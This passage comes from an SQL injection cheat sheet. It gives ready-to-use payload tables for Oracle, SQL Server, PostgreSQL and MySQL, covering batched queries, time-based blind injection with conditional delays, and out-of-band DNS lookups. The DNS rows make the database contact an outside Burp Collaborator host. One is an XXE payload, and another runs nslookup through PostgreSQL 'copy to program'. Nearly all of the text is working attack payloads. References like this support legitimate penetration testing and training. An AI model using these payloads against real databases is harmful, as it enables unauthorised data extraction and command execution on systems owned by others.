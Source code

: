 | Database   | Payload                           |
|------------|-----------------------------------|
| Oracle     | Does not support batched queries. |
| Microsoft  | QUERY-1-HERE; QUERY-2-HERE        |
| PostgreSQL | QUERY-1-HERE; QUERY-2-HERE        |
| MySQL      | QUERY-1-HERE; QUERY-2-HERE        |

### Note
With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays
You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Database   | Payload                             |
|------------|-------------------------------------|
| Oracle     | dbms_pipe.receive_message(('a'),10) |
| Microsoft  | WAITFOR DELAY '0:0:10'              |
| PostgreSQL | SELECT pg_sleep(10)                 |
| MySQL      | SELECT sleep(10)                    |

## Conditional time delays
You can test a single boolean condition and trigger a time delay if the condition is true.

| Database   | Payload                                                                                                        |
|------------|----------------------------------------------------------------------------------------------------------------|
| Oracle     | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual |
| Microsoft  | IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'                                                                |
| PostgreSQL | SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END                                  |
| MySQL      | SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')                                                                   |

## DNS lookup
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator client to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Database   | Payload                                                                                                                                                                                                  |
|------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Oracle     | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: |
|            | SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual            |
|            | The following technique works on fully patched Oracle installations, but requires elevated privileges:                                                                                                   |
|            | SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')                                                                                                                           |
| Microsoft  | exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'                                                                                                                                   |
| PostgreSQL | copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'                                                                                                                          |
| MySQL      | The following techniques work on Windows only:                                                                                                                                                           |
|            | LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')                                                                                                                                             |